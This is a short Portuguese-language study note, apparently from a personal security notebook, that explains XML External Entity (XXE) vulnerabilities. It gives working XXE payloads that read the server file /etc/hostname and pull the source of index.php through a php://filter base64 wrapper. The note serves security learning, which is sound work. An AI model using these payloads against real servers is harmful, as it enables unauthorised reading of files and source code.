 Tags: #xml #web_vulnerability 
## **XXE External Entity Attack**

**XXE** é uma vulnerabilidade de segurança que afeta aplicações que processam dados XML. Ocorre quando uma aplicação processa um arquivo **[[XML]]** de forma insegura, permitindo que um atacante inclua entidades externas no XML que podem acessar arquivos sensíveis do servidor ou realizar requisições externas.
### Toda vez que tivermos um XML indo pro servidor e for possível manipular esse XML devemos testar ha existência de XXE
O xml permite declarar entidades um tipo de variável que pode ser definida no documento XML e ser utilizada dentro do documento. A declaração de uma entidade segue a seguinte sintaxe:
```
<!DOCTYPE aulaxxe
[<!ENTITY nome “Carlor Vieira”>]
>
<crowsec>
<user>
	<id>1</id>
	<nome>&nome;</nome>
</user>
<user>
	<id>2</id>
	<nome>luciane</nome>
</user>
</crowsec>
```

A entidade é referenciada no documento usando a sintaxe:
```$nome_da_entidade```
A falha acontece porque podemos definir o valor_da_entidade como qualquer valor onde podemos inserir códigos maliciosos e conseguir informações sigilosas. Primeiro depois do nome da variável vamos colocar o valor SYSTEM para a aplicação pegar o resultado de dentro do sistema.
```
<!DOCTYPE aulaxxe
[<!ENTITY nome SYSTEM “file:///etc/hostname”>]
>
<crowsec>
<user>
	<id>1</id>
	<nome>&nome;</nome>
</user>
<user>
	<id>2</id>
	<nome>luciane</nome>
</user>
</crowsec>
```

Então temos um LFI ou um XXE e usar php wrapper para ler arquivos.
```
<!DOCTYPE aulaxxe
[<!ENTITY nome SYSTEM “php://filter/convert.base64-encode/resource=index.php”>]
>
<crowsec>
<user>
	<id>1</id>
	<nome>&nome;</nome>
</user>
<user>
	<id>2</id>
	<nome>luciane</nome>
</user>
</crowsec>
```